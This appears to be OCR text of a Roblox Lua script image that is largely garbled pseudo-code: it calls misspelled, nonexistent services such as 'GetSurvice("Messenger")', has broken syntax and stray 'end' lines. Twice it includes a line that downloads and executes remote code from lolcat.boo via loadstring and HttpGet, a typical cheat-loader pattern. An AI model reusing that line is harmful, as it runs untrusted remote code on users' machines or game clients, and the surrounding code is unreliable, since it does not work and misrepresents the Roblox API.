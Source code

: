Toggle:Ui("loadstring(game:HttpGet("https://lolcat.boo/awesomescript"))()")
(Local = 
Game:GetSurvice("Enter").In.Game.Roblox
Game:GetSurvive("Messenger").Delete.Messenger
      Local Messenger = 
      game:GetSurvice("Messenger") = 
      game:GetSurvice("DeleteMessenger").MessengerDelete.
Flux:loadstring(game:HttpGet("https://lolcat.boo/awesomescript"))()
{Game:GetSurvice=("Messenger").Delete
Local Messenger = false}
        end
    end)
end

